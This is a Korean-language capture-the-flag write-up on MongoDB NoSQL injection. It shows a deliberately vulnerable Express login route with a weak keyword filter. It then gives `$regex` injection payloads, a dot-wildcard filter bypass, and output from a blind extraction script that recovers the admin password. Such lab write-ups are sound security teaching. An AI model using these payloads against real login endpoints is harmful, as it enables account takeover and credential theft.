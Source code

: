 # NoSQL-Injection
SQL Injection과 매우 유사한 방식이고, 두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다

# Mango(Exercies)
admin의 계정 비밀번호가 flag 값이다. 아래는 express 프레임워크로 실행 중인 문제 코드이다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// filter 함수 ==============================
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
// ================================================

app.get('/login', function(req, res) {
    if(filter(req.query)){  // filter  함수가 실행된다
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({ // db에서 uid, upw 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```
1. `/login` 페이지 요청시에서는 이용자가 쿼리로 전달한 uid, upw로 데이터에비스를 검색하고 찾아낸 이용자의 정보를 반환한다
2.  filter 함수는 일부 문자열을 필터링하는 함수이다. 필터링 함수는 admin, dh, admi 라는 문자열이 있을 때 true를 반환한다
3. 코드에서 db에서 uid,upw 검색하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다. 이로 인해서 타입이 string 뿐만아니라 object 타입도 쿼리가 가능하기 때문에 NoSQL Injection 공격이 가능해진다.

# 익스플로잇
`/login?uid=guest&upw=guest`을 입력하면 이용자의 uid만 출력된다. flag 를 얻기 위해선 upw를 획득해야하기 때문에 다음과 같은 방법으로 익스플로잇한다
1. Blind NoSQL Injection Payload 생성 `$regex` 연산을 사용하여 정규표현식을 이용해 데이터를 검색한다.

```
/login?uid=guest&upw[$regex]=.*

guest
```

만약 upw가 일치하는 경우 uid를, 아닌경우 undefined 문자열이 출력되는 것을 통해 참과 거짓을 확인 할 수 있다

2. filter 우회
filter 함수는 admin, dh, admi 문자열을 필터링하지만 정규표현식에서 임의 문자를 표현하는 `.`을 이용하여 쉽게 우회한다

```bash
/login?uid[$regex]=ad.in&upw[$regex]=D.{*

admin
```

3. Exploit Code 작성
이제는 한글자씩 알아내야하므로, 여러번 쿼리를 전달해야하는데 이를 자동화하는 스크립트 코드를 작성하여 실행한다.
코드는 깃허브에 따로 업로드 하였습니다.

# kali linux 에서 코드 작성 후 실행

```
└─$ python3 nosql.py 
FLAG: DH{8}
FLAG: DH{89}
FLAG: DH{89e}
FLAG: DH{89e5}
FLAG: DH{89e50}
FLAG: DH{89e50f}
FLAG: DH{89e50fa}
FLAG: DH{89e50fa6}
FLAG: DH{89e50fa6f}
FLAG: DH{89e50fa6fa}
FLAG: DH{89e50fa6faf}
FLAG: DH{89e50fa6fafe}
FLAG: DH{89e50fa6fafe2}
FLAG: DH{89e50fa6fafe26}
FLAG: DH{89e50fa6fafe260}
FLAG: DH{89e50fa6fafe2604}
FLAG: DH{89e50fa6fafe2604e}
FLAG: DH{89e50fa6fafe2604e3}
FLAG: DH{89e50fa6fafe2604e33}
FLAG: DH{89e50fa6fafe2604e33c}
FLAG: DH{89e50fa6fafe2604e33c0}
FLAG: DH{89e50fa6fafe2604e33c0b}
FLAG: DH{89e50fa6fafe2604e33c0ba}
FLAG: DH{89e50fa6fafe2604e33c0ba0}
FLAG: DH{89e50fa6fafe2604e33c0ba05}
FLAG: DH{89e50fa6fafe2604e33c0ba058}
FLAG: DH{89e50fa6fafe2604e33c0ba0584}
FLAG: DH{89e50fa6fafe2604e33c0ba05843}
FLAG: DH{flag                         }
FLAG: DH{flag                          }
FLAG: DH{flag                           }
FLAG: DH{flag 가리기~~~!!!!!!!!!!!!!!!!!!}
```

위와 같이 코드를 작성하여 실행 시키면 flag 값을 획득 할 수 있다.

